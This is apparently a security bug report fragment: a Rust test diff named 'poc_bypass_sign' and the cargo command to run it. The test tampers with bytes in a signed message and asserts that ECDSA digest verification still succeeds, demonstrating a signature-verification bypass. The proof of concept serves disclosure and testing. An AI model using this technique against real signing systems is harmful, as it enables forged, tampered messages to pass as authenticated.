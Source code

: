 ```diff
+        let mut test_data_hack2 = Vec::new();
+        test_data_hack2.extend(test_data_tag_2_key.clone());
+        test_data_hack2.extend(test_data_tag_2_data.clone());
+        test_data_hack2.extend(test_data_tag_3_key.clone());
+        let mut test_data_tag_3_data_tampering = test_data_tag_3_data.clone();
+        test_data_tag_3_data_tampering[10] = 0;
+        test_data_tag_3_data_tampering[11] = 0;
+        test_data_tag_3_data_tampering[12] = 0;
+        test_data_hack2.extend(test_data_tag_3_data_tampering.clone());
+        test_data_hack2.extend(test_data_tag_1_key.clone());
+        test_data_hack2.extend(empty_prefix_sign.clone());
+        let (msg_hack2, digest_hack2) = Signed::<SignerMessage>::decode_with_digest(&test_data_hack2).unwrap();
+        // println!("digest_hack2: {:?}", digest_hack2);
+        // println!("msg_hack2: {:?}", msg_hack2);
+        msg_hack2.verify_digest(digest_hack2).unwrap();
+        assert_eq!(msg_hack2.signer_public_key, keypair.public_key().into());
+    }
```

Run the test case:

```sh
cargo test --package signer --lib -- ecdsa::tests::poc_bypass_sign --exact --show-output 
```
